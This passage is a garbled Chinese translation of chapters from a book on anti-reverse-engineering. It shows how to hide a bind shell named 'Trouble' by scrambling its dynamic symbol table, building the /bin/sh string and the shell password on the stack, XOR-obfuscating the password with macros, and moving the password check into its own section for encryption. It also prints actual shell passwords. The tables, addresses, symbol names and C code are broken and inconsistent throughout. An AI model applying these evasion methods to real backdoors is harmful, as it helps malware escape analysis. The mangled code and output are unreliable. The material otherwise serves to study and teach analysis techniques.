`mixDynamicSymbols` 必须在动态文件上运行。由于原因，请回到 Trouble。请注意偏移量是0，查看动态符号表，看看它是如何发生变化的。

```bash
lobster@ubuntu:~/book chap_3_format_hacks/trouble$ readelf -S ./trouble
There are 36 section headers, starting at 0x40:

Section Headers:

| Nr | Name | Offset | Size | Flags | Info |
|---|---|---|---|---|---|
| 5 | .dynym | 0000000000000348 | 0000000000000000 | 18 | A | 6 |

重要的是，偏移量是0x300。此外，值得查看动态符号表以看到。
```

```bash
lobster@ubuntu:~/book chap_3_format_hacks/trouble$ readelf --dyn-sym ./trouble

Symbol table '.dynym' 包含 35 个条目：

| Num | Value | Type | Bind | Ndx | Name |

|---|---|---|---|---|---|

| 0 | 0000000000000000 | NOTYPE | LOCAL | DEFAULT | |

| 1 | 0000000000000000 | NOTYPE | WEAK | DEFAULT | _DT_relereg_tmclone |

| 2 | 0000000000000000 | FUNC | GLOBAL | DEFAULT | accept@GLIBC_2.2 (3) |

| 3 | 0000000000000000 | FUNC | GLOBAL | DEFAULT | memcmp@GLIBC_2.2 (3) |

| 4 | 0000000000000000 | FUNC | GLOBAL | DEFAULT | error@GLIBC_2.2 (3) |

| 5 | 0000000000000000 | FUNC | GLOBAL | DEFAULT | htons@GLIBC_2.2 (3) |

| 6 | 0000000000000000 | FUNC | GLOBAL | DEFAULT | close@GLIBC_2.2 (3) |

| 7 | 0000000000000000 | FUNC | GLOBAL | DEFAULT | fork@GLIBC_2.2 (3) |

| 8 | 0000000000000000 | FUNC | GLOBAL | DEFAULT | bind@GLIBC_2.2 (3) |

| 9 | 0000000000000000 | FUNC | GLOBAL | DEFAULT | read@GLIBC_2.2 (3) |

| 10 | 0000000000000000 | FUNC | GLOBAL | DEFAULT | fwrite@GLIBC_2.2 (3) |

| 11 | 0000000000000000 | NOTYPE | WEAK | DEFAULT | _gn_start_ |

| 12 | 00000000000000000 | FUNC | GLOBAL | DEFAULT | execve@GLIBC_2.2 (3) |

| 13 | 00000000000000000 | FUNC | GLOBAL | DEFAULT | htons@GLIBC_2.2 (3) |
```

## 第3 章：文件格式技巧

| No | Address | Type | Bind | Name |
| :--- | :--- | :--- | :--- | :--- |
| 14 | 0000000000000000 | FUNC | GLOBAL DEFAULT UND | listen@GLIBC_2.2.5 (3) |
| 15 | 0000000000000000 | NOTYPE | WEAK DEFAULT UND | _Jv_RegisterClasses |
| 16 | 0000000000000000 | FUNC | GLOBAL DEFAULT UND | dup2@GLIBC_2.2.5 (3) |
| 17 | 0000000000000000 | FUNC | GLOBAL DEFAULT UND | socket@GLIBC_2.2.5 (3) |
| 18 | 0000000000000000 | NOTYPE | WEAK DEFAULT UND | _ITM_registerTMCloneTable |
| 19 | 0000000000000000 | FUNC | GLOBAL DEFAULT UND | __lib_start_main@GLIBC_2.2.5 (3) |
| 20 | 0000000000000000 | FUNC | GLOBAL DEFAULT UND | _stack_chk_fail@GLIBC_2.2.5 (3) |
| 21 | 0000000000006020a8 | NOTYPE | GLOBAL DEFAULT 25 | _edata |
| 22 | 0000000000006020a8 | NOTYPE | GLOBAL DEFAULT 25 | _data_start |
| 23 | 0000000000006020d0 | NOTYPE | GLOBAL DEFAULT 26 | _end |
| 24 | 00000000000040c064 | FUNC | GLOBAL DEFAULT 14 | check_password |
| 25 | 000000000000502980 | NOTYPE | WEAK DEFAULT 25 | data_start |
| 26 | 00000000000040e004 | OBJECT | GLOBAL DEFAULT 16 | IO_stdin_used |
| 27 | 00000000000040e600 | FUNC | GLOBAL DEFAULT 14 | __lib_csu_init |
| 28 | 00000000000040b101 | FUNC | GLOBAL DEFAULT 14 | _start |
| 29 | 0000000000006020a0 | FUNC | GLOBAL DEFAULT 26 | _bss_start |
| 30 | 000000000000400c2f5 | FUNC | GLOBAL DEFAULT 14 | main |
| 31 | 0000000000004009d0 | FUNC | GLOBAL DEFAULT 11 | _init |
| 32 | 0000000000006020c0 | OBJECT | GLOBAL DEFAULT 26 | stderr@GLIBC_2.2.5 (3) |
| 33 | 00000000000040e0d2 | FUNC | GLOBAL DEFAULT 14 | __lib_csu_fini |
| 34 | 000000000000400ed40 | FUNC | GLOBAL DEFAULT 15 | _fini |

现在使用 `mixDynamicSymbols` 来处理 Trouble。

将 `mixDynamicSymbols` 应用于 Trouble

```
albino-lobster@ubuntu:~/antire_book/chap_3_format_hacks/mixDynamicSymbols/build$ ./mixDynamicSymbols ../../antire_book/chap_1_introduction/trouble/build/trouble

albino-lobster@ubuntu:~/antire_book/chap_3_format_hacks/mixDynamicSymbols/build$
```


成功后没有华丽的输出，但现在看一眼`.dynsym`节头。

# 第3章：文件格式

## Trouble 修改后的 .dynsym

`albino-lobster@ubuntu:~/antire_book/chap_1_introduction/trouble/build$ -S /t/ rou`

有 36 个节头，起始于偏移量`0x3c40`：

### 节头列表：

| [Nr] | Name | Type | Address | Offset | Size | EntSize | Flags | Link | Align |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| [ 5 ] | .dynsym | DYSYM | 00000000040300 | 00004540 | 00000000000000018 | A | 6 | 1 | 8 |

偏移量现在没有放在`0x300`，而是指向了我们复制到`0x4540`的伪符号表。让我们看看动态符号发生了什么变化。

Trouble 修改后的 .dynsym

`albino-lobster@ubuntu:~/antire_book/chap_1_introduction/trouble/build$ --dyn-sym ./trou`

符号表`.dynsym`包含 35 条目：

| Num | Value | Type | Bind | Name |
| :--- | :--- | :--- | :--- | :--- |
| 0 | 0000000000000000 | NOTYPE | LOCAL | DEFAULT | __ITM_registerTMCloneTable |
| 1 | 0000000000000000 | FUNC | WEAK | DEFAULT | memcmp@GLIBC_2.2 (3) |
| 2 | 0000000000000000 | FUNC | GLOBAL | DEFAULT | fwrite_GLIBC_2.2.5 (3) |
| 3 | 0000000000000000 | FUNC | GLOBAL | DEFAULT | __lib_start_main@GLIBC_2.2.5 (3) |
| 4 | 0000000000000000 | FUNC | GLOBAL | DEFAULT | _stack_chk_fail@GLIBC_2.2.5 (3) |
| 5 | 0000000000000000 | FUNC | GLOBAL | DEFAULT | accept@GLIBC_2.2.5 (3) |
| 6 | 0000000000000000 | FUNC | GLOBAL | DEFAULT | socket@GLIBC_2.2.5 (3) |
| 7 | 0000000000000000 | FUNC | GLOBAL | DEFAULT | close@GLIBC_2.2.5 (3) |
| 8 | 0000000000000000 | FUNC | GLOBAL | DEFAULT | perror@GLIBC_2.2.5 (3) |
| 9 | 0000000000000000 | FUNC | GLOBAL | DEFAULT | bind@GLIBC_2.2.5 (3) |
| 10 | 0000000000000000 | FUNC | GLOBAL | DEFAULT | _stack_chk_fail@GLIBC_2.2.5 (3) |
| 11 | 0000000000000000 | NOTYPE | WEAK | DEFAULT | __gmon_start_ |
| 12 | 0000000000000000 | FUNC | GLOBAL | DEFAULT | execve@GLIBC_2.2.5 (3) |
| 13 | 0000000000000000 | FUNC | GLOBAL | DEFAULT | htable_GLIBC_2.2.5 (3) |
| 14 | 0000000000000000 | FUNC | GLOBAL | DEFAULT | dup2@GLIBC_2.2.5 (3) |
| 15 | 0000000000000000 | NOTYPE | WEAK | DEFAULT | _Jv_RegisterClasses |
| 16 | 0000000000000000 | FUNC | GLOBAL | DEFAULT | fork@GLIBC_2.2.5 (3) |
| 17 | 0000000000000000 | FUNC | GLOBAL | DEFAULT | listen@GLIBC_2.2.5 (3) |
| 18 | 0000000000000000 | NOTYPE | WEAK | DEFAULT | _ITM_registerTMCloneTable |
| 19 | 0000000000000000 | FUNC | GLOBAL | DEFAULT | und@GLIBC_2.2.5 (3) |
| 20 | 0000000000000000 | FUNC | GLOBAL | DEFAULT | htons@GLIBC_2.2.5 (3) |
| 21 | 0000000000006020a8 | NOTYPE | GLOBAL | DEFAULT 25 | _edata |
| 22 | 0000000000006020a8 | NOTYPE | GLOBAL | DEFAULT 25 | _data_start |
| 23 | 0000000000006020d0 | NOTYPE | GLOBAL | DEFAULT 26 | _end |
| 24 | 00000000000040c064 | FUNC | GLOBAL | DEFAULT 24 | check_password |
| 25 | 0000000000006020f8 | WEAK | DEFAULT 25 | data_start |
| 26 | 00000000000040e000 | OBJECT | GLOBAL | DEFAULT 16 | _IO_stdin_used |
| 27 | 00000000000040e010 | FUNC | GLOBAL | DEFAULT 14 | __libc_csu_init |
| 28 | 00000000000040b101 | FUNC | GLOBAL | DEFAULT 14 | _start |
| 29 | 0000000000006020a0 | NOTYPE | GLOBAL | DEFAULT 26 | _bss_start |
| 30 | 000000000000400c25 | FUNC | GLOBAL | DEFAULT 14 | main |
| 31 | 0000000000004009d0 | FUNC | GLOBAL | DEFAULT 11 | _init |
| 32 | 000000000000400c08 | OBJECT | GLOBAL | DEFAULT 26 | stderr@GLIBC_2.2.5 (3) |
| 33 | 00000000000040e0d2 | FUNC | GLOBAL | DEFAULT 14 | __libc_csu_fini |
| 34 | 000000000000400ed40 | FUNC | GLOBAL | DEFAULT 15 | _fini |

查看符号编号。在`mixDynamics`之前，符号名称是"`accept@GLIBC_2.2.5 (3)`"，现在是"`memcmp@GLIBC_2.4 (2)`"。这如何影响反汇编？

### 使用 IDA 查看的 check_password()

```
.text:00000000000c40c6 check_password proc      ; XREF:main+194

.text:00000000000c40c6 p_password

                      q = word ptr -8

.text:00000000000c40c6 push rbp

.text:00000000000c40c7 mov rbp, rsp

.text:00000000000c40a0 sub rsp, 0x10

.text:00000000000c40ce 4879df8b mov word [rbp]-local_8h], rdi

.text:00000000000c40c2 48848f48 mov ra, qword [rbp]-local_8h]

.text:00000000000c4016 ba200000 mov edx, 0x20             ; len

.text:00000000000c401b 4889c6 mov rsi, rax               ; addr

.text:00000000000c401e bf00f400 mov edi, offset password ; "GisFutI89aRKJvkz31Nuxtq915kEga"

.text:00000000000c4023 e848feff call   bind

.text:00000000000c4028 85c0 test   eax, eax

.text:00000000000c402a 09f5c0 setz   al

.text:00000000000c402d c9 leave

.text:00000000000c402e c3 ret

.text:00000000000c402e check_password endp(aa)

.text:00000000000c402e
```

注意`0x040c23`处的调用显示为`bind`？那里应该是`memcmp`。这种技术的微妙性不应被低估。逆向工程师只有在进行动态分析，或者比较节头和程序头中的`.dynsym`偏移量时，才会符号符号是不正确的。幸运的是，现在 Radare 对这种混淆免疫。

## Radare 仍然显示 memcmp

`albino-lobster@ubuntu:~/ant_book/chap_1_introduction/trouble/build$ radare ./trou`
这是一个不可接受的地牢。
`[0x0400b10]> aaa`
`[x] Analyze all flags starting with sym. and entry(aa)`
`[x] Analyze len by bytes of instructions for references (aar)`
`[x] Analyze function calls (aac)`
`- [ ] Use-AA or aaaa to perform additional experimental analysis.`
`[x] Constructing a function name for fcn.* and sym.func.* functions (aan)`
`[0x0400b10]> pdf @ sym.check_password`
```
/ (fcn) sym.check_password 41
| sym.check_password();
| var int local_8h @ rbp-0xb8
| ; CALL XREF from 0x0400dc3 (sym.main)
0x0400c06 55 push rbp
0x0400c07 4889e5 mov rbp, rsp
0x0400c0a 4883c10 sub rsp, 0x10
0x0400c0e 4879df8b mov word [rbp]-local_8h], rdi
0x0400c12 48848f48 mov ra, qword [rbp]-local_8h]
0x0400c16 ba200000 mov edx, 0x20             ; len
0x0400c1b 4889c6 mov rsi, rax               ; addr
0x0400c1e bf00f400 mov edi, offset password ; "GisFutI89aRKJvkz31Nuxtq915kEga"
0x0400c23 e848feff call   bind
0x0400c28 85c0 test   eax, eax
0x0400c2a 09f5c0 setz   al
0x0400c2d c9 leave
0x0400c2e c3 ret
```

# 第3章：文件格式黑技巧

有趣的是，虽然 Hopper 正确地处理了其他一些文件格式混淆，但它仍然会于这种特定的攻击。

带有`mixDynamicSymbols`的 Hopper 中的`check_password()`

```
check_password:

0000000000004c06    push   rbp                ; XREF=main+404

0000000000004c07    mov    rbp, rsp

0000000000004c0a    sub    rsp, 0x10

0000000000004c0e    mov    qword [ss:rbp+var_8], rdi

0000000000004c12    mov    rax, [ss:rbp+var_8]

0000000000004c16    mov    edx, 0x20       ; argument "address_len" for method j_bind

0000000000004c1e    mov    rsi, rax        ; argument "address" for method j_bind

0000000000004c1b    mov    edi, 0x400f00      ; "GisFutI89aMRKJvkz31NuXtq9155kEga", arg="socket"

0000000000004c23    call   j_bind

0000000000004c28    test   eax, eax

0000000000004c2a    setne al

0000000000004c2d    leave

0000000000004c2e    ret

    ; endp
```

# 第4章：对抗字符串分析

在之前的章节中，我们花费了大量工作来防止逆向工程师破解出**Trouble**绑定 shell 的密码。然而，我们还没有保护二进制文件免受逆向工程师工具箱中的第一个工具之一：`strings`³⁶ 看看发现密码是多么简单：

**在 strings 输出中寻找密码**

```
albino-lobster@ubuntu:~/antire_book/chap_3_format_hacks/trouble/build$ strings -a -n |

32 . /trouble

GisFUtI89AMRKJvkz31NuXtq9155kEGa

Resource temporarily unavailable

Address family not supported by protocol

Cannot send after socket shutdown

}&++?>CGJMXYZ[\\]^_acdefgijklrstyz{|
```

在 own版本的**Trouble**中，密码是"`GisFUtI89AMRKJvkz31NuXtq9155kEGa`"，它恰好是`strings`输出中的第一个项。

# 代码重组

现在你已经到了第四章，是时候改变**Trouble**的编译方式了。你已经学习了一些有趣的混淆技术，我想在本书书的剩余部分继续使用其中一些技术。在上一章中，你必须手动运行`*stripBinary*`，每次都这么做很令人讨厌。相反，让我们将其自动化。在第四章中，你将使用"`dontpanic`"目录下的`CMakeLists.txt`文件编译**Trouble**。稍后，你将看到如何通过运行`cmake ..; make once`轻松地向"`dontpanic`"添加并执行其他项目。目前，在第四章编译**Trouble**应该是这样的：

³⁶`Strings`是一个简单的实用程序，用于输出提供文件中所有的字符串。完整的详细说明请参阅"`man strings`"。

# 第4章：对抗字符串分析

```
albino-lobster@ubuntu:~/antire_book$ cd chap_4_static_analysis/dontpanic/

albino-lobster@ubuntu:~/antire_book/chap_4_static_analysis/dontpanic$ mkdir build

albino@ubuntu:~/antire_book/chap_4_static_analysis/dontpanic$ cd build/

albino-lobster@ubuntu:~/antire_book/chap_4_static_analysis/dontpanic/build$ cmake
```

编译第四章版本的 Trouble

```
-- The C compiler identification is GNU 5.4.0

-- Check for working C compiler: /usr/bin/cc

-- Check for working C compiler: /usr/bin/cc    works

-- Detecting C compiler ABI info

-- Detecting compiler ABI info - done

-- Detecting C compile features

-- Detecting C compile features - done

-- Configuring done

-- Generating done
```


Build files have been written to: `/home/albino-lobster/antire_book/chap_4_static_analysis/dontpanic/build`

`albino-lobster@ubuntu:~/antire_book/chap_4_static_analysis/dontpanic/build$` Scanning dependencies of target trouble

```
- [33%] Building C object/CMakeFiles.dir/src/trouble.c.o
- [66%] Building C object/CMakeFiles.dir/src/rc4.c.o
- [100%] Linking executable trouble
```

The bind shell password is: `CygHgAtdQQfwBS01M5Wygn`

```
[100%] Built target
```

`albino-lobster@ubuntu:~/antire_book/chap_4_static_analysis/dontpanic/build$`

```
不仅所有项目都编译了，而且自动应用了 stripBinary。bind shell 现在可以在 build 目录中找到。
```

# Strings

隐藏字符串的办法之一是将字符串与代码混合。基本思想是将字符串的每个字节逐个添加到栈上。例如，使用 `execve("/bin/sh")`，字符串出现在 `strings` 输出中。你可以进行简单的更改，确保 `"/bin/sh"` 字符串在栈上构建且不在 `strings` 输出中。

```c
char binsh[] = { '/', 'b', 'n', '/', 's', 'h', 0 };
execve(binsh);
```

现在 `strings` 找不到它。为什么这样做有效？考虑 `execve()` 附近的反汇编：

使用普通 `/bin/sh` 的反汇编

```
.text:0000000000040733    mov    [rbp+var_50], 0
.text:000000000004073b    mov    rdx, [rbp+var_50]
.text:000000000004077f    mov    rax, [rbp+var_50]
.text:0000000000040783    mov    rsi, rax
.text:0000000000040786    mov    edi, offset aSh
.text:000000000004078b    call   execve
```

你可以看到，`"bin/sh"` 的地址在调用 `execve()` 之前存储在 `edi` 中。然而，看看栈版本。

使用栈字符串 `/bin/sh` 的反汇编

```
.text:00000000000407f7    mov    [rbp+var_60], 0
.text:0000000000040857    mov    [rbp+var_40], 2F
.text:000000000004085b    mov    [rbp+var_38], 62h
.text:000000000004085f    mov    [rbp+var_3e], 69h
.text:0000000000040933    mov    [rbp+var_3d], 6Eh
.text:0000000000040937    mov    [rbp+var_3c], 2F
.text:000000000004093b    mov    [rbp+var_3b], 73h
.text:000000000004093f    mov    [rbp+var_3a], 5F
.text:00000000000409a3    mov    [rbp+var_39], 0
.text:00000000000409a7    lea    rdx, [rbp+var_60]
.text:0000000000040aab    lea    rcx, [rbp+var_60]
.text:00000000000400af    lea    rax, [rbp+var_40]
.text:0000000000040b33    mov    rsi, rcx
.text:0000000000040b36    mov    rdi, rax
.text:0000000000040b39    call   execve
```

上面你可以看到每个字母 `0x2f, 0x62, 0x69, 0x63, 0x2f, 0x73, 0x68` 和 `NULL` 都被逐个移动到栈上。这有效地将字符串与代码混合，使得工具无法找到它们。

将栈字符串实现为字符数组非常有用，但我们如何让它在 Trouble 的 shell 中工作呢？记住每次运行命令都会生成新密码，我们应该能够正常地对其索引。

将 shell 密码存储为栈

```c
bool check_password(const char* password)
{
    char password[33] =
        password[0], password[1], password[2], password[3],
        password[4], password[5], password[6], password[7],
        password[8], password[9], password[10], password[11],
        password[12], password[13], password[14], password[15],
        password[16], password[17], password[18], password[19],
        password[20], password[21], password[22], password[23],
        password[24], password[25], password[26], password[27],
        password[28], password[29], password[30], password[31], 0;
    // validate the password
    return memcmp(password, p_password, 32) != 0;
}
```

生成的反汇编代码较大，但保持了密码作为栈字符串的形式。

## 第 4 章：对抗字符串分析

```assembly
.text:0000000000000016    xor eax, eax
.text:0000000000000048    mov [rsp+38h+var_36], 6Bh
.text:000000000000004D    mov [rsp+38h+var_35], 4Bh
.text:0000000000000042    mov [rsp+38h+var_34], 39h
.text:0000000000000047    mov [rsp+38h+var_33], 61h
.text:000000000000004C    mov [rsp+38h+var_32], 63h
.text:0000000000000043    mov [rsp+38h+var_31], 58h
.text:0000000000000046    mov [rsp+38h+var_30], 30h
.text:000000000000004B    mov [rsp+38h+var_2F], 27h
.text:0000000000000040    mov [rsp+38h+var_2E], 79h
.text:0000000000000045    mov [rsp+38h+var_2D], 79h
.text:000000000000004A    mov [rsp+38h+var_2C], 5Cl
.text:000000000000004F    mov [rsp+38h+var_2B], 44h
.text:0000000000000054    mov [rsp+38h+var_2A], 51h
.text:0000000000000059    mov [rsp+38h+var_29], 46h
.text:000000000000005E    mov [rsp+38h+var_28], 75h
.text:0000000000000063    mov [rsp+38h+var_27], 76h
.text:0000000000000068    mov [rsp+38h+var_26], 27h
.text:000000000000006D    mov [rsp+38h+var_25], 4Bh
.text:0000000000000072    mov [rsp+38h+var_24], 48h
.text:0000000000000077    mov [rsp+38h+var_23], 33h
.text:000000000000007C    mov [rsp+38h+var_22], 48h
.text:0000000000000081    mov [rsp+38h+var_21], 33h
.text:0000000000000086    mov [rsp+38h+var_20], 75h
.text:000000000000008B    mov [rsp+38h+var_1F], 52h
.text:0000000000000090    mov [rsp+38h+var_1E], 78h
.text:0000000000000095    mov [rsp+38h+var_1D], 4Bh
.text:000000000000009A    mov [rsp+38h+var_1C], 51h
.text:000000000000009F    mov [rsp+38h+var_1B], 43h
.text:00000000000000A4    mov [rsp+38h+var_1A], 70h
.text:00000000000000A9    mov [rsp+38h+var_19], 48h
.text:00000000000000AE    mov [rsp+38h+var_18], 0
.text:00000000000000B3    call memcmp
.text:00000000000000B8    test eax, eax
.text:00000000000000BA0nz al
.text:00000000000000BD    mov rcx, [rsp+38h+var_10]
.text:00000000000000C2    xor rcx, fs:28h
.text:00000000000000CB    jn short loc_4004d
.text:00000000000000D1    add rsp, 38h
.text:00000000000000D2    ret
----------------------------
; CODE XREF: check_password+
loc_4004d:
    nop
```

在上一节中，你通过 `strings` 工具找到了密码。然而，密码仍然很容易恢复，因为每个字符的十六进制表示在反汇编中是可见的。让我们进一步，对每个字节进行 XOR 操作，使得反向工程师无法直接从反汇编中读取这些值。

在添加新的逻辑之前，考虑如果你有一百个需要混淆的字符串，手动将它们写入数组是否真的合理？使用宏来自动化此过程。

到底什么是宏？GCC 的文档这样解释的：预处理器会找到所有宏调用并将其替换为宏中定义的实际代码。这是一种简化机制，但足够理解基础知识。

我很乐向你展示一个漂亮的递归宏来创建栈字符串。现实是，在 C（或 C++）中递归宏是不可能的。因此，你被迫为字符串中的每个索引创建一个新宏。幸运的是，我已经为你写好了。

```c
/*
 * 下面的宏用于生成被给定 "key"（即 0xaa）混淆的栈字符串。
 * 字符串的长度是宏名称中的数字。例如，如果我有一个 8 字节的字符串，我想混淆它，我会使用 XOR_STRING7。
 * 因为宏从 0 开始。
 */
#define XOR_STRING0(storage, string, key) storage[0] = string[0] ^ key;
#define XOR_STRING1(storage, string, key) storage[1] = string[1] ^ key \
    XOR_STRING0(storage, string, key), storage[2] = string[2] ^ key \
    XOR_STRING1(storage, string, key), storage[3] = string[3] ^ key \
    XOR_STRING2(storage, string, key), storage[4] = string[4] ^ key \
    XOR_STRING3(storage, string, key), storage[5] = string[5] ^ key \
    XOR_STRING4(storage, string, key);
```

```c
#define XOR_STRING6(storage, string, key) storage[6] = string[6] ^ key; \
    XOR_STRING5(storage, string, key);
#define XOR_STRING7(storage, string, key) storage[7] = string[7] ^ key; \
    XOR_STRING6(storage, string, key);
#define XOR_STRING8(storage, string, key) storage[8] = string[8] ^ key; \
    XOR_STRING7(storage, string, key);
#define XOR_STRING9(storage, string, key) storage[9] = string[9] ^ key; \
    XOR_STRING8(storage, string, key);
#define XOR_STRING10(storage, string, key) storage[10] = string[10] ^ key; \
    XOR_STRING9(storage, string, key);
#define XOR_STRING11(storage, string, key) storage[11] = string[11] ^ key; \
    XOR_STRING10(storage, string, key);
#define XOR_STRING12(storage, string, key) storage[12] = string[12] ^ key; \
    XOR_STRING11(storage, string, key);
#define XOR_STRING13(storage, string, key) storage[13] = string[13] ^ key; \
    XOR_STRING12(storage, string, key);
#define XOR_STRING14(storage, string, key) storage[14] = string[14] ^ key; \
    XOR_STRING13(storage, string, key);
#define XOR_STRING15(storage, string, key) storage[15] = string[15] ^ key; \
    XOR_STRING14(storage, string, key);
#define XOR_STRING16(storage, string, key) storage[16] = string[16] ^ key; \
    XOR_STRING15(storage, string, key);
#define XOR_STRING17(storage, string, key) storage[17] = string[17] ^ key; \
    XOR_STRING16(storage, string, key);
#define XOR_STRING18(storage, string, key) storage[18] = string[18] ^ key; \
    XOR_STRING17(storage, string, key);
#define XOR_STRING19(storage, string, key) storage[19] = string[19] ^ key; \
    XOR_STRING18(storage, string, key);
#define XOR_STRING20(storage, string, key) storage[20] = string[20] ^ key; \
    XOR_STRING19(storage, string, key);
#define XOR_STRING21(storage, string, key) storage[21] = string[21] ^ key; \
    XOR_STRING20(storage, string, key);
#define XOR_STRING22(storage, string, key) storage[22] = string[22] ^ key; \
    XOR_STRING21(storage, string, key);
```


```c
#define XOR_STRING23(storage, string, key) storage[23] = string[23] ^ key; \
    XOR_STRING22(storage, string, key);

#define XOR_STRING24(storage, string, key) storage[24] = string[24] ^ key; \
    XOR_STRING23(storage, string, key);

#define XOR_STRING25(storage, string, key) storage[25] = string[25] ^ key; \
    XOR_STRING24(storage, string, key);

#define XOR_STRING26(storage, string, key) storage[26] = string[26] ^ key; \
    XOR_STRING25(storage, string, key);

#define XOR_STRING27(storage, string, key) storage[27] = string[27] ^ key; \
    XOR_STRING26(storage, string, key);

#define XOR_STRING28(storage, string, key) storage[28] = string[28] ^ key; \
    XOR_STRING27(storage, string, key);

#define XOR_STRING29(storage, string, key) storage[29] = string[29] ^ key; \
    XOR_STRING28(storage, string, key);

#define XOR_STRING30(storage, string, key) storage[30] = string[30] ^ key; \
    XOR_STRING29(storage, string, key);

#define XOR_STRING31(storage, string, key) storage[31] = string[31] ^ key;
```

# 第 4 章：对抗字符串分析

循环并不能可靠地生成栈上字符串（即“栈字符串”会出现在 `strings` 命令的输出中）。因此，我们只能采用“多个宏”的解决方案。

现在你可以重写 `check_password()` 来使用其中一个 `XOR_STRING` 宏。

将 `check_password()` 修改为使用 XOR 混淆栈字符串

```c
#include "xor_string.h"

bool check_password(const char* p_password)
{
    char pass[password_size] = {};
    XOR_STRING31(pass, password, @0aa);
    // 验证密码
    return memcmp(undo_xor_string(pass, 32, @0aa), p_password, 32) != 0;
}
```

现在密码在反汇编文件中就不那么清晰了。

`check_password()` 中 XOR 混淆栈字符串的反汇编代码

| .text:00000000004008E0 check_password ; CODE XREF:main+13C p |
| :--- | :--- |
| .text:00000000004008E0 | sub rsp, 38h |
| .text:00000000004008E0 | | |
| .text:00000000004008E4 | mov rsi, rdi |
| .text:00000000004008E7 | mov edx, 20h |
| .text:00000000004008EC | mov rax, fs:28h |
| .text:00000000004008F5 | mov [rsp+38h+var_10], rax |
| .text:00000000004008FA | xor eax, eax |
| .text:00000000004008FC | mov [rsp+38h+var_18], 0 |
| .text:0000000000400901 | mov byte ptr [rsp+38h+var_28], 0FH |
| .text:0000000000400906 | mov rdi, rsp |
| .text:0000000000400909 | mov byte ptr [rsp+38h+var_28Eh], 0DB |
| .text:000000000040090E | mov byte ptr [rsp+38h+var_28Eh], 0F2 |
| .text:0000000000400913 | mov byte ptr [rsp+38h+var_28Ch], 0C4 |
| .text:0000000000400918 | mov byte ptr [rsp+38h+var_28Bh], 0E6 |
| .text:000000000040091D | mov byte ptr [rsp+38h+var_28Ah], 0E7 |
| .text:0000000000400922 | mov byte ptr [rsp+38h+var_29], 0C3 |

> ³⁹ 注意，我在措辞上非常小心，因为从理论上讲，循环可能会被优化器展开，从而生成栈上字符串。然而，这并不可靠，我不确定确定它是否

```assembly
.text:000000000400927 mov byte ptr [rsp+38h+var_28], E7h
```

```assembly
.text:00000000040092C mov byte ptr [rsp+38h+var_27], F0h
```

```assembly
.text:000000000400931 mov byte ptr [rsp+38h+var_26], E0h
```

```assembly
.text:000000000400936 mov byte ptr [rsp+38h+var_25], 5Ch
```

```assembly
.text:00000000040093B mov byte ptr [rsp+38h+var_24], D8h
```

```assembly
.text:000000000400940 mov byte ptr [rsp+38h+var_23], 93h
```

```assembly
.text:000000000400945 mov byte ptr [rsp+38h+var_22], F9h
```

```assembly
.text:00000000040094A mov byte ptr [rsp+38h+var_21], 0Bh
```

```assembly
.text:00000000040094F mov byte ptr [rsp+38h+var_20], E8h
```

```assembly
.text:000000000400954 mov byte ptr [rsp+38h+var_19], E0h
```

```assembly
.text:000000000400959 mov byte ptr [rsp+38h+var_18], D0h
```

```assembly
.text:00000000040095E mov byte ptr [rsp+38h+var_17], 99h
```

```assembly
.text:000000000400963 mov byte ptr [rsp+38h+var_16], 0Ch
```

```assembly
.text:000000000400968 mov byte ptr [rsp+38h+var_15], F0h
```

```assembly
.text:00000000040096D mov byte ptr [rsp+38h+var_14], 08h
```

```assembly
.text:000000000400972 mov byte ptr [rsp+38h+var_13], E9h
```

```assembly
.text:000000000400977 mov byte ptr [rsp+38h+var_12], F8h
```

```assembly
.text:00000000040097C mov byte ptr [rsp+38h+var_1], 9Fh
```

```assembly
.text:000000000400981 mov byte ptr [rsp+38h+var_10], 68h
```

```assembly
.text:000000000400986 mov byte ptr [rsp+38h+var_9], D02h
```

```assembly
.text:00000000040098B mov byte ptr [rsp+38h+var_8], 55h
```

```assembly
.text:000000000400990 mov byte ptr [rsp+38h+var_7], 44h
```

```assembly
.text:0000000004000995 mov byte ptr [rsp+38h+var_6], 2Eh
```

```assembly
.text:000000000400099A mov byte ptr [rsp+38h+var_5], E77h
```

```assembly
.text:000000000400099F mov eax, cs:word [401A2]
```

```assembly
.text:0000000004009A3 mov eax, [rsp+38h+var_28]
```

```assembly
.text:0000000004009AB mov eax, [rsp+38h+var_27]
```

```assembly
.text:0000000004009B0 xor eax, [rsp+38h+var_28]
```

```assembly
.text:00000000040009B4 movaps [rsp+38h+var_28], xmm1
```

```assembly
.text:00000000040009BE movaps [rsp+38h+var_28], xmm0
```

```assembly
.text:00000000040009C3 call memcmp
```

```assembly
.text:00000000040009C8 test eax, eax
```

```assembly
.text:00000000040009CD mov rcx, [rsp+38h+var_10]
```

```assembly
.text:00000000040009D2 xor rdx, fs:28h
```

```assembly
.text:00000000040009DB jnz short loc_4009E2
```

```assembly
.text:00000000040009DD add rsp, 38h
```

```assembly
.text:00000000040009E1 ret
```

```assembly
.text:00000000040009E2 call __stack_chk_fail ; CODE XREF:check_password+FB
```

这种方法更难从从中提取密码（尤其是当你并不知道密钥时）。作为一名逆向工程师，如果你遇到 XOR 编码的数据，有两个工具可以查找并解码这些数据：

1. Didier Stevens 的 `XORSearch`
2. hellman 的 `xortool`

然而，请注意，你已经通过简单使用 XOR 结合栈上字符串击败了这些工具。

# 函数加密

生成 XOR 混淆字符串非常有用，但并不能减慢优秀的逆向工程师的速度。你需要更强大的手段来隐藏 `bind`。让我们尝试加密整个 `check_password()` 函数。

# 使用链接器脚本计算函数大小

当你尝试弄如何加密函数时，面临的第一个问题是如何确定函数的大小。

## 第四章：对抗字符串分析

`chap_4_static_analysis/dontpanic/trouble/trouble_layout.lds`

``` 
{
    check_password_size = SIZEEOF(.check_password);
}
```

但现在有一个问题。目前，`check_password()` 位于 `.text` 段。你需要更改函数定义，使其被放置在自己的段中。这可以通过 GCC 的函数属性（function attributes）功能来实现。将 `check_password()` 的函数定义更新如下：

在 `check_password()` 上使用 section 名称属性

```c
bool __attribute__((section(".check_password"))) check_password(const char* p_password)
{
    char pass[password_size] = {};
    XOR_STRING31(pass, password, 0xaa);
    // 验证密码
    return memcmp(undo_xor_string(pass, 32, 0xaa), p_password, 32) != 0;
}
```


如果你重新编译 `Trouble` 且不剥离（strip）段表，你可以确认创建了一个特殊的段 `.check_password`。

> [43](https://gcc.gnu.org/onlinedocs/gcc/Common-Function-Attributes.html#Common-Function-Attributes

## readelf 中的 check_password

